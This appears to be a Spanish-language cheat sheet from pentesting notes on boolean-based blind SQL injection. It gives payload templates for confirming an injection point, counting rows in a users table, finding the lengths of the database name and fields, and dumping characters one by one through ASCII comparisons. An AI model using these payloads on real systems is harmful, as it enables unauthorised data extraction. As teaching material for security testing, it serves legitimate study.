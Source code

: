 ### Descubriendo la vulnerabilidad

En este caso buscamos un campo donde podamos validar una respuesta. Luego buscamos una respuesta correcta(true), con esta respuesta correcta, buscamos agregar más lógica a la query con el fin de analizar si un segundo caso se cumple:

    admin' AND 1=1-- -
    admin' AND 1=0-- -

##### Explicación de la lógica:

1. Una vez que validamos que tenemos un dato que es verdadero, agregamos a la query un boolean que sea verdadero. Si esto no resulta falso podemos inferir que el segundo caso (el boolean) está siendo analizado puesto que si tomara todo lo ingresado como un dato completo ya no tendríamos "admin" como dato sino "admin' and...."
2. Inyectamos ahora un caso booleano que de falso. Si la respuesta es Falsa, entonces podemos asegurar que el segundo caso es validado.
3. Utilizamos el segundo caso para hacer querys que puedan darnos una pista de los datos que se están manejando.

### validar cantidad de campos en una tabla

        <dato>' AND (select count(*) from users) > 0-- -

##### otra opción

        <dato>' AND ORDER BY <numero>

### Conseguir el length de un dato de la tabla

        <dato>' AND LEN(<campo a consultar del usuario>)=<length>-- -

### Conseguir el length del nombre de la db

        <dato>’ AND LENGTH(DATABASE())=<length>-- -

### Dumpear el nombre de una DB:

        <dato>’ AND ASCII(SUBSTR(DATABASE(),<index>,X))=<Valor ASCII>-- -

        
### Dumpear los caracteres dentro de un campo

Podemos trabajarlo con valores ASCII(en números del 32 al 127) y luego decodearlos para tener el caracter legible

        <dato>'+AND+ASCII(SUBSTRING(<campo>,<index_del_char>,1))=<valor ASCII>--+-

Una buena página para hacer esta decodificación una vez logrados los resultados(recordar copiar separados los ASCII, luego la página los junta:

https://www.duplichecker.com/ascii-to-text.php
